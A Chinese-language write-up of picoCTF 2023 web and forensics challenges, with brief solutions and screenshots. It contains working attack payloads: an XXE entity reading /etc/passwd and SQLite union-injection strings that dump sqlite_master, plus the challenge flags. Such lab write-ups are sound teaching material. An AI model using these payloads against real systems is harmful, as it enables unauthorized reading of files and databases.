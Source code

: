 [TOC]



## picoCTF2023

### web

#### findme

看一下题目描述，username：`test`，password：`test!` 注意后面有一个感叹号

![image-20230318163826388](https://s2.loli.net/2023/03/18/WBqDpo69nkJPCgT.png)



我们在登录时抓包：

![image-20230318164022562](https://s2.loli.net/2023/03/18/DcxafRrsF7NyL4v.png)

将

```
cGljb0NURntwcm94aWVzX2Fs

base解码：
picoCTF{proxies_al
```

![image-20230318164123884](https://s2.loli.net/2023/03/18/I6xlPQmJfCWyRXL.png)

重定向之后，再将id进行base64解码：

```
bF90aGVfd2F5X2QxYzBiMTEyfQ==

base64解码：

l_the_way_d1c0b112}
```

得到flag



#### MatchTheRegex

正则匹配一个字符串，匹配上了给flag

![image-20230318164709389](https://s2.loli.net/2023/03/18/gTtdy9Oivpr5AF1.png)

我们登录进去看一下源代码：

![image-20230318164751967](https://s2.loli.net/2023/03/18/cgDqfLI3x28CsS6.png)



这里提示： `^p...F!?`，结合比赛名称，我们只需要输入`picoCTF!` 即可得到flag

![image-20230318165002410](https://s2.loli.net/2023/03/18/hOtkZM8vNIRKcdo.png)



#### SOAP

![image-20230318165113124](https://s2.loli.net/2023/03/18/W9QqtBSGTiUJcyg.png)

根据提示：`XML外部实体注入`

我们点击`details`时进行抓包

![image-20230318165200165](https://s2.loli.net/2023/03/18/fqpPKhu2IbwOnVW.png)

如图：

![image-20230318165244888](https://s2.loli.net/2023/03/18/jMquv9RNxSwKeTG.png)

确实是xml类型的信息

我们只需要构造，引用一个外部实体即可：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
	<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data><ID>&file;</ID></data>
```



![image-20230318165502435](https://s2.loli.net/2023/03/18/3ec6UoBp9ytS1uv.png)





#### More SQLi

![image-20230318165701861](https://s2.loli.net/2023/03/18/tLfGqF9sQa1BSl4.png)

根据提示：`SQLiLite`

查阅资料： `SQLite` 也是一个数据库

`SQLite`与`mysql`类似，但是没有`information_schema`数据库

并且`SQLite`有一个不同点，注释不能使用`#`，需要使用`--` 

此题的注入点为：password

**非预期解**

![image-20230318170720831](https://s2.loli.net/2023/03/18/ZzqGTuER52vtyUF.png)

直接使用单引号'闭合，然后使用联合查询union，再使用`-- `闭合掉后面

```sqlite
' union select 1-- 
```



**预期解**

首先我们已经知道了字段数为1，所以我们需要查询表名：

以下三种方式都可以，主要是注释不同

> `SQLite`：
>
> 1. 每一个 `SQLite` 数据库都有一个叫 `sqlite_master` 的表，该表会自动创建。
> 2. `sqlite_master`是一个特殊表, 存储数据库的元信息, 如表(table), 索引(index), 视图(view), 触发器(trigger), 可通过select查询相关信息。

![image-20230318171549316](https://s2.loli.net/2023/03/18/3tpg6yLA2rFRuzs.png)

我们通过如下方式`查询sql建表语句`

```sqlite
-1' union select (select group_concat(sql) from sqlite_master);
-1' union select (select group_concat(sql) from sqlite_master) -- 
-1' union select (select group_concat(sql) from sqlite_master)/*
```

![image-20230318171945245](https://s2.loli.net/2023/03/18/dD3GqiVOlp2U1sA.png)

(题目好像改了)

[SQLite注入](https://blog.csdn.net/HBohan/article/details/120672745)





### Forensics

#### hideme





![flag](https://s2.loli.net/2023/03/18/iGTKMxO6ktCVyqU.png)

`foremost` 分离一下，得到压缩包，压缩包中有flag

![flag](https://s2.loli.net/2023/03/18/6HY7crLdDuOSGj2.png)



#### PcapPoisoning

得到一个流量包文件，使用wireshark打开：

![image-20230318173228860](https://s2.loli.net/2023/03/18/smTOihkBIy9xKGj.png)

进行长度排序，最长的那个藏了flag





#### who is it

![image-20230318174504913](https://s2.loli.net/2023/03/18/WlHmNFOf2cIaL9V.png)

这个是通过ip查询 `whois`，

什么是 `whois`？

![image-20230318174636911](https://s2.loli.net/2023/03/18/9pYku3VODBtZ2mR.png)

所以我们根据提示，可以使用ip来查询到域名相关者的姓名信息，

我们可以通过网站：[查询](https://www.whatismyip.com/ip-whois-lookup/)

如图：

![image-20230318174851494](https://s2.loli.net/2023/03/18/YNtjxkVw6zb1Hch.png)

名字就是flag



